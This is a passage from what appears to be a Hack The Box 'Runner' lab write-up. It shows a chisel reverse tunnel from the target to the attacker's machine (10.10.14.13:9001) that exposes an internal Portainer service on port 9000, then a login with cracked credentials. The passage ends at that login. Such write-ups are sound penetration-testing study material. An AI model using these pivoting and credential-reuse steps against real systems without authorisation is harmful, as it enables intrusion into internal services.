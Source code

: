 `./chisel_linux client 10.10.14.13:9001 R:9000:127.0.0.1:9000`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/runner/image-21.png)

Chisel server running on local kali machine detects incoming connection:

`chisel server -p 9001 --reverse`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/runner/image-20.png)

### Portrainer

We can now access port 9000 from our local browser.

Website shows a portrainer login portal:

`http://127.0.0.1:9000`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/runner/image-22.png)

Using the password hash cracked earlier (matthew:piper123), we can log in:
